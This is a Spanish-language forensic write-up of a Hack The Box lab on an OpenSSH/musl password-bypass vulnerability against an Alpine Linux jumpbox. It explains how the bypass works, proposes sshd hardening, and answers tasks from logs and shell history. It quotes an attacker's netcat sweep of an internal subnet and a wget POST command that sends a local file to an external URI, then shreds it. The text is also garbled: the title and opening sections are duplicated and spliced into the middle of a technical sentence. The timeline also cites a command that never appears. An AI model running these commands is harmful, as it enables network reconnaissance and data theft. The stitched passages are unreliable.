







# SSHole — Análisis forense de un servidor SSH comprometido


> **Laboratorio:** SSHole (Hack The Box, modalidad Sherlock)  
> **Fecha de resolución:** 17 de noviembre de 2026  
> **Usuario HTB:** Zaynux  
> **Entorno de análisis:** Windows PowerShell 5.1, inspección local de artefactos Linux  
> **Resultado:** 7/7 tareas resueltas, 180 XP

## 1. Resumen del caso

El escenario plantea tráfico sospechoso desde un *jumpbox* mal configurado hacia un dominio externo. El objetivo consistió en examinar una copia de los archivos del servidor para determinar cómo se obtuvo acceso no autorizado y qué actividades se realizaron después.

El análisis se efectuó **sin atacar sistemas reales**: se inspeccionaron archivos de configuración, registros y el historial de shell proporcionados por el laboratorio. La investigación permitió identificar una cuenta susceptible de omisión de autenticación, un acceso SSH exitoso, un escaneo de una red interna y comandos orientados a transferir un archivo fuera del servidor.

## 2. Evidencia recibida y metodología

El material de SSHole contenía, entre otras rutas:

```text
SSHole/
├── etc/
│   ├── os-release
│   └── shadow
├── home/
│   └── adminsvc/
│       ├── .ash_history
│       └── scanreport.txt
├── root/
└── var/
    └── log/
        └── messages
```

Para listar el contenido se utilizó `tree /F /A`. Posteriormente, los archivos se examinaron con `Get-Content` y `Select-String` en PowerShell. No fue necesario ejecutar los scripts encontrados ni conectarse a los equipos o destinos que figuran en las evidencias.



*Evidencia 01. Estructura inicial del conjunto de archivos extraído.*

## 3. Fundamentos teóricos de SSHole (preguntas 1–3)

> **Alcance:** esta sección desarrolla las preguntas teóricas de la actividad y distingue las explicaciones técnicas consultadas de las evidencias obtenidas del Sherlock. Las configuraciones propuestas son **medidas de endurecimiento documentadas**, no modificaciones aplicadas al servidor del laboratorio.

### Pregunta 1 — Arquitectura y dependencias

**¿Qué componentes deben coincidir para que el entorno sea vulnerable y por qué no sigue el mismo comportamiento una instalación convencional con glibc y PAM?**

SSHole (CVE-2026-123158) requiere la coincidencia de **varias condiciones**, no solamente tener Alpine Linux:

1. Un **servidor OpenSSH `sshd` vulnerable**, anterior a la corrección de OpenSSH 10.6p2, que use la ruta de comprobación local de contraseñas.
2. Una implementación **`musl libc`** cuyo `crypt()` devuelve el indicador de error `*` en la condición descrita. Alpine Linux es un ejemplo de distribución que emplea musl.
3. **Autenticación sin PAM** (servidor compilado sin soporte PAM, o configuración que no lo utiliza). En ese caso, el servidor realiza la comprobación del hash por la ruta local afectada.
4. **`PasswordAuthentication yes`** y acceso al puerto SSH desde una red alcanzable.
5. Una **cuenta objetivo con `*` en el campo de contraseña** de `/etc/shadow`, junto con **al menos otra cuenta local que tenga un hash SHA-crypt real** (por ejemplo, identificado por `$5# SSHole — Análisis forense de un servidor SSH comprometido


> **Laboratorio:** SSHole (Hack The Box, modalidad Sherlock)  
> **Fecha de resolución:** 17 de noviembre de 2026  
> **Usuario HTB:** Zaynux  
> **Entorno de análisis:** Windows PowerShell 5.1, inspección local de artefactos Linux  
> **Resultado:** 7/7 tareas resueltas, 180 XP

## 1. Resumen del caso

El escenario plantea tráfico sospechoso desde un *jumpbox* mal configurado hacia un dominio externo. El objetivo consistió en examinar una copia de los archivos del servidor para determinar cómo se obtuvo acceso no autorizado y qué actividades se realizaron después.

El análisis se efectuó **sin atacar sistemas reales**: se inspeccionaron archivos de configuración, registros y el historial de shell proporcionados por el laboratorio. La investigación permitió identificar una cuenta susceptible de omisión de autenticación, un acceso SSH exitoso, un escaneo de una red interna y comandos orientados a transferir un archivo fuera del servidor.

## 2. Evidencia recibida y metodología

El material de SSHole contenía, entre otras rutas:

```text
SSHole/
├── etc/
│   ├── os-release
│   └── shadow
├── home/
│   └── adminsvc/
│       ├── .ash_history
│       └── scanreport.txt
├── root/
└── var/
    └── log/
        └── messages
```

Para listar el contenido se utilizó `tree /F /A`. Posteriormente, los archivos se examinaron con `Get-Content` y `Select-String` en PowerShell. No fue necesario ejecutar los scripts encontrados ni conectarse a los equipos o destinos que figuran en las evidencias.


*Evidencia 01. Estructura inicial del conjunto de archivos extraído.*

 o `$6# SSHole — Análisis forense de un servidor SSH comprometido


> **Laboratorio:** SSHole (Hack The Box, modalidad Sherlock)  
> **Fecha de resolución:** 17 de noviembre de 2026  
> **Usuario HTB:** Zaynux  
> **Entorno de análisis:** Windows PowerShell 5.1, inspección local de artefactos Linux  
> **Resultado:** 7/7 tareas resueltas, 180 XP

## 1. Resumen del caso

El escenario plantea tráfico sospechoso desde un *jumpbox* mal configurado hacia un dominio externo. El objetivo consistió en examinar una copia de los archivos del servidor para determinar cómo se obtuvo acceso no autorizado y qué actividades se realizaron después.

El análisis se efectuó **sin atacar sistemas reales**: se inspeccionaron archivos de configuración, registros y el historial de shell proporcionados por el laboratorio. La investigación permitió identificar una cuenta susceptible de omisión de autenticación, un acceso SSH exitoso, un escaneo de una red interna y comandos orientados a transferir un archivo fuera del servidor.

## 2. Evidencia recibida y metodología

El material de SSHole contenía, entre otras rutas:

```text
SSHole/
├── etc/
│   ├── os-release
│   └── shadow
├── home/
│   └── adminsvc/
│       ├── .ash_history
│       └── scanreport.txt
├── root/
└── var/
    └── log/
        └── messages
```

Para listar el contenido se utilizó `tree /F /A`. Posteriormente, los archivos se examinaron con `Get-Content` y `Select-String` en PowerShell. No fue necesario ejecutar los scripts encontrados ni conectarse a los equipos o destinos que figuran en las evidencias.


*Evidencia 01. Estructura inicial del conjunto de archivos extraído.*

), condición necesaria para la selección del formato de hash que desencadena el fallo.

En el Sherlock comprobamos la condición correspondiente a la cuenta objetivo:

```text
adminsvc:*:20763:0:99999:7:::
```

Esta línea se obtuvo con `Get-Content .\SSHole\etc\shadow | Select-String "adminsvc"` y se documentó en la **Evidencia 03**. Por sí sola **no demuestra la totalidad de requisitos**: la explicación del resto proviene del análisis técnico de la vulnerabilidad.

**Comparación con glibc/PAM:** en sistemas Linux convencionales basados en **glibc**, `crypt()` no presenta esa misma combinación específica de error `*` utilizada para el bypass. Cuando **PAM se utiliza para autenticar**, la verificación sigue otro flujo y no la comparación directa vulnerable descrita. Por tanto, no debe afirmarse que *todo* uso de glibc o PAM garantiza seguridad frente a cualquier fallo SSH; simplemente **este vector concreto** no se reproduce por esa ruta.

### Pregunta 2 — Mecánica de la colisión

**¿Cómo puede una contraseña extensa convertirse en una autenticación aceptada?**

El mecanismo puede entenderse en cinco etapas:

1. **Estado inicial:** ciertas cuentas sin contraseña utilizable o destinadas a acceso por clave pública presentan un `*` en su campo de `/etc/shadow`. Ese símbolo es un marcador de bloqueo, **no una contraseña**.
2. **Solicitud de autenticación:** `sshd` recibe un intento de acceso por contraseña para la cuenta objetivo. En la ruta vulnerable sin PAM se prepara la verificación con `crypt()`, utilizando el formato y *salt* criptográfico seleccionados a partir de la información local de hashes.
3. **Contraseña excesivamente larga:** para la combinación vulnerable con SHA-crypt, una entrada de más de 256 caracteres (típicamente se describe el intervalo de **257 a 1024**) provoca que la función `crypt()` de musl falle y devuelva el literal `*` como **indicador de error**, en vez de generar un hash válido.
4. **Comparación defectuosa:** el resultado de error `*` se compara con el campo almacenado de la cuenta objetivo, que también contiene `*`. Como las cadenas coinciden, la aplicación interpreta incorrectamente la comparación como una verificación válida.
5. **Consecuencia:** la ruta vulnerable puede aceptar la autenticación sin que el usuario conozca una contraseña legítima.

**Relación con nuestras evidencias:** la **Evidencia 03** muestra `adminsvc:*`; la **Evidencia 04** presenta `Failed password` a las **11:27:05** y `Accepted password` a las **11:27:08** del **6 de noviembre de 2026** para `adminsvc` desde `192.168.72.1`. Ambos hallazgos son **compatibles con el mecanismo descrito**, aunque los logs no registran la contraseña enviada ni su longitud. La atribución específica a CVE-2026-123158 se sustenta además en el *writeup* oficial del ejercicio.

### Pregunta 3 — Mitigación y endurecimiento

**¿Qué medidas adicionales al parche oficial reducen la exposición?**

La **medida prioritaria** es actualizar OpenSSH a una versión corregida (10.6p2 o paquete de la distribución con el arreglo incorporado). Como defensa en profundidad, se proponen estas configuraciones independientes:

#### Medida A: deshabilitar métodos de autenticación por contraseña

En **`/etc/ssh/sshd_config`**:

```sshconfig
PasswordAuthentication no
KbdInteractiveAuthentication no
```

**Efecto:** evita que el servidor acepte autenticación mediante contraseña o el mecanismo interactivo, suprimiendo la ruta de entrada utilizada por este ataque. Antes de activarla, debe existir una **clave pública funcional** para el administrador y un acceso alternativo de emergencia.

#### Medida B: exigir clave pública y restringir las cuentas permitidas

En **`/etc/ssh/sshd_config`**, adaptando el usuario a un administrador real autorizado:

```sshconfig
PubkeyAuthentication yes
AuthenticationMethods publickey
PermitRootLogin no
AllowUsers administrador
```

**Efecto:** fuerza autenticación mediante clave pública, evita el inicio de sesión directo como root y limita qué cuentas pueden acceder por SSH. **`administrador` es un ejemplo**, no una cuenta observada en el laboratorio; debe sustituirse por el usuario legítimo antes de aplicar la configuración. Aunque estas medidas se complementan con la anterior, `AllowUsers` y `PermitRootLogin` aportan además reducción del alcance del servicio.

**Instrumentación y validación seguras (en un servidor administrado, no en los artefactos forenses):**

```bash
# Revisar la sintaxis antes de aplicar cambios
sudo sshd -t

# Consultar los valores efectivos relevantes
sudo sshd -T | grep -Ei 'passwordauthentication|kbdinteractiveauthentication|pubkeyauthentication|authenticationmethods|permitrootlogin|allowusers'

# Tras validar la clave pública y conservar una sesión de respaldo:
sudo rc-service sshd reload  # Alpine Linux con OpenRC
```

Antes de recargar, se debe verificar que no existan archivos en `sshd_config.d/` u otras directivas `Match` que alteren el resultado efectivo, y **probar una nueva conexión con clave pública sin cerrar la sesión administrativa existente**. Un cambio erróneo puede impedir todo acceso remoto.

**Capa adicional recomendada:** restringir el puerto TCP/22 con firewall, VPN o listas de control de acceso, de modo que únicamente una red de administración pueda conectarse al jumpbox. Esto limita la exposición, pero **no reemplaza** la actualización ni las medidas de autenticación.

**Limitación de la práctica:** el reto proporcionó una **copia de archivos**, no acceso de administración a un servidor activo. Por eso estas configuraciones son una propuesta técnica y no se presentan como aplicadas ni verificadas en el laboratorio.

**Referencias técnicas externas consultadas:**

- [Cloud Security Alliance — análisis técnico de CVE-2026-123158](https://labs.cloudsecurityalliance.org/research/csa-research-note-openssh-musl-auth-bypass-20261107-csa-styl/)
- [Cloudflare Radar — SSHole: mecanismo y actualizaciones](https://radar.cloudflare.com/zero-wire/sshole)
- [Manual de `sshd_config(5)`](https://man.openbsd.org/sshd_config)

---

## 4. Investigación y resolución de tareas

### Task 1 — ¿Qué distribución y versión de Linux ejecutaba el servidor?

Se consultó `etc/os-release`:

```powershell
Get-Content .\SSHole\etc\os-release
```

Los campos relevantes fueron:

```ini
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.24.3
PRETTY_NAME="Alpine Linux v3.24"
```

**Respuesta: `Alpine Linux 3.24.3`.**



*Evidencia 02. Identificación del sistema operativo mediante `os-release`.*

### Task 2 — ¿Qué vulnerabilidad se aprovechó para obtener acceso?

Se examinó la entrada de la cuenta `adminsvc` en `etc/shadow`:

```powershell
Get-Content .\SSHole\etc\shadow | Select-String "adminsvc"
```

Salida:

```text
adminsvc:*:20763:0:99999:7:::
```

El símbolo `*` ocupa el campo de la contraseña, impidiendo normalmente la autenticación convencional mediante contraseña. Según el *writeup* del laboratorio, la vulnerabilidad **SSHole** afecta la interacción de OpenSSH con la función `crypt()` en determinadas implementaciones basadas en musl: una contraseña demasiado larga puede producir `*` como resultado de error y coincidir indebidamente con dicho campo.

**Respuesta indicada en el writeup: `CVE-2026-123158`.** Este identificador se toma de la documentación del ejercicio; los archivos locales por sí solos permiten identificar el patrón, pero no verificar de manera independiente el registro público del CVE.



*Evidencia 03. Registro de `adminsvc` en `/etc/shadow`.*

### Task 3 — ¿Cuándo se explotó la vulnerabilidad?

Se filtraron los mensajes SSH:

```powershell
Get-Content .\SSHole\var\log\messages | Select-String "sshd"
```

Eventos principales:

```text
Nov  6 11:27:05 ... Failed password for adminsvc from 192.168.72.1 port 61351 ssh2
Nov  6 11:27:08 ... Accepted password for adminsvc from 192.168.72.1 port 61351 ssh2
```

El evento **`Accepted password` a las 11:27:08** confirma que se aceptó una autenticación de contraseña para la cuenta investigada. El año `2026` se toma del contexto temporal del laboratorio y de su writeup, puesto que estas líneas de syslog no muestran el año explícitamente.

**Respuesta: `2026-11-06 11:27:08`.**



*Evidencia 04. Intento fallido seguido de autenticación aceptada para `adminsvc`.*

### Task 4 — ¿Qué cuenta de usuario se utilizó?

Tanto la entrada de `/etc/shadow` como los registros del servicio SSH identifican la cuenta `adminsvc`. El acceso aceptado provino de `192.168.72.1` en los artefactos analizados.

**Respuesta: `adminsvc`.**

*Evidencias relacionadas: 03 y 04.*

### Task 5 — ¿Qué valor permite la omisión de autenticación?

El mecanismo descrito por el ejercicio depende de la coincidencia entre el carácter almacenado en `/etc/shadow` y el valor devuelto erróneamente por `crypt()`.

**Respuesta: `*` (asterisco).**

*Evidencia relacionada: 03.*

### Task 6 — ¿Qué comando se usó para reconocer la red interna?

Se revisó el historial de comandos de la cuenta comprometida:

```powershell
Get-Content .\SSHole\home\adminsvc\.ash_history
```

El historial incluía el comando siguiente:

```bash
for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done
```

El comando intenta comprobar puertos TCP mediante **Netcat (`nc`)** para direcciones de la subred `192.168.18.0/24`, filtrando mensajes que indiquen conexiones o puertos abiertos.

**Respuesta:** el comando anterior, tal como aparece en el historial.



*Evidencia 05. Actividad registrada en `.ash_history`, incluido el reconocimiento y los comandos posteriores.*

También se revisó el reporte de resultados:

```powershell
Get-Content .\SSHole\home\adminsvc\scanreport.txt
```

| Equipo encontrado | Puertos listados en `scanreport.txt` |
| --- | --- |
| `192.168.18.5` | `443`, `445`, `3389` |
| `192.168.18.23` | `88`, `139`, `445`, `3389`, `6801`, `54321` |

La presencia de `88` (habitualmente Kerberos) y `445` (SMB) en el segundo equipo **sugiere** infraestructura vinculada a un dominio Windows; no basta para confirmar que sea un controlador de dominio.



*Evidencia 06. Archivo `scanreport.txt` con los dos equipos detectados.*

### Task 7 — ¿A qué URI se intentó exfiltrar un archivo?

En el mismo `.ash_history` se observa una petición que envía el contenido de un archivo local mediante HTTP POST:

```bash
wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process
shred -u /tmp/.devenv
```

La opción `--post-file` indica un intento de subir el contenido del archivo `.devenv` al destino remoto; `shred -u` intenta sobrescribir y eliminar el archivo. El historial **no demuestra por sí solo que el servidor remoto recibiera los datos correctamente**, pero sí deja constancia del comando de exfiltración introducido.

**Respuesta: `https://devv.coding.eu/process`.**

*Evidencia relacionada: 05.*

## 5. Cronología del incidente

| Momento / fase | Hallazgo | Fuente |
| --- | --- | --- |
| Contexto inicial | Servidor con Alpine Linux 3.24.3 y cuenta `adminsvc` con `*` en el campo de contraseña | `etc/os-release`, `etc/shadow` |
| 2026-11-06 11:27:05 | Intento de autenticación fallido para `adminsvc` | `var/log/messages` |
| 2026-11-06 11:27:08 | Autenticación por contraseña aceptada para `adminsvc` desde `192.168.72.1` | `var/log/messages` |
| Actividad posterior, sin hora confirmada | Reconocimiento mediante Netcat hacia `192.168.18.x` | `.ash_history` |
| Actividad posterior, sin hora confirmada | Consulta de `scanreport.txt`, con dos equipos enumerados | `.ash_history`, `scanreport.txt` |
| Actividad posterior, sin hora confirmada | Comando para descargar y ejecutar un script remoto | `.ash_history` |
| Actividad posterior, sin hora confirmada | Intento de transferir `/tmp/.devenv` a una URI externa y borrarlo | `.ash_history` |

> **Limitación:** `.ash_history` no incorpora marcas de tiempo para estos comandos. Por tanto, se conoce su orden en el historial, pero no una hora exacta ni la confirmación de éxito de cada operación.

## 6. Indicadores de compromiso (IoC)

| Tipo | Indicador | Interpretación |
| --- | --- | --- |
| Cuenta | `adminsvc` | Usuario afectado por el acceso sospechoso |
| IP origen SSH | `192.168.72.1` | Dirección registrada en la autenticación aceptada |
| Subred reconocida | `192.168.18.0/24` | Segmento interno explorado |
| Equipos detectados | `192.168.18.5`, `192.168.18.23` | Sistemas listados en el reporte |
| Archivo | `/tmp/.devenv` | Archivo que se intentó transferir |
| URI de destino | `https://devv.coding.eu/process` | Destino mostrado en el comando POST |

Los indicadores pertenecen al contexto del laboratorio. No se deben interpretar automáticamente como maliciosos fuera de él.

## 7. Recomendaciones de seguridad

1. **Actualizar OpenSSH y las dependencias relacionadas**, según los avisos de seguridad aplicables a la distribución y versión afectadas.
2. **Revisar la configuración SSH** y reducir los métodos de autenticación habilitados cuando no sean necesarios.
3. **Restringir el acceso a los jumpboxes** mediante reglas de red, listas de acceso y segmentación adecuada.
4. **Centralizar y monitorizar registros SSH**, prestando atención a autenticaciones exitosas inesperadas en cuentas que no deberían admitir contraseñas.
5. **Limitar la conectividad lateral del jumpbox** hacia servicios internos mediante el principio de mínimo privilegio.
6. **Monitorizar transferencias salientes y ejecución de scripts remotos**, e investigar intentos de borrado de artefactos.
7. **Rotar secretos potencialmente expuestos** y verificar el alcance del incidente si existiera confirmación de una filtración real.

## 8. Conclusión

El conjunto de evidencias permite reconstruir una intrusión compatible con la explotación de **SSHole** contra el servidor Alpine Linux. La cuenta `adminsvc` presentaba la condición documentada en el writeup; los registros SSH mostraron una autenticación aceptada y el historial reveló reconocimiento de la red interna y un intento posterior de exfiltración.

El ejercicio demuestra el valor de **correlacionar configuraciones, logs e historiales de comandos** para reconstruir las acciones de un atacante, diferenciando los hechos observados de las hipótesis y de las operaciones cuyo éxito no queda demostrado por los registros disponibles.

## 9. Finalización del Sherlock



*Evidencia 07. Confirmación de resolución de SSHole en Hack The Box (17 de noviembre de 2026).*

---

### Fuentes y alcance

- **Artefactos del laboratorio SSHole:** `etc/os-release`, `etc/shadow`, `var/log/messages`, `home/adminsvc/.ash_history` y `home/adminsvc/scanreport.txt`.
- **SSHole Writeup**, CyberJunkie, fechado el 6 de noviembre de 2026, facilitado con el ejercicio. Usado para contextualizar la vulnerabilidad y contrastar las respuestas.
- **Capturas propias:** carpeta [`evidencias/`](evidencias/).

**Nota de seguridad:** este repositorio incluye únicamente documentación y capturas. No publica el ZIP original, llaves SSH, volcados de `/etc/shadow` ni archivos secretos extraídos del laboratorio.
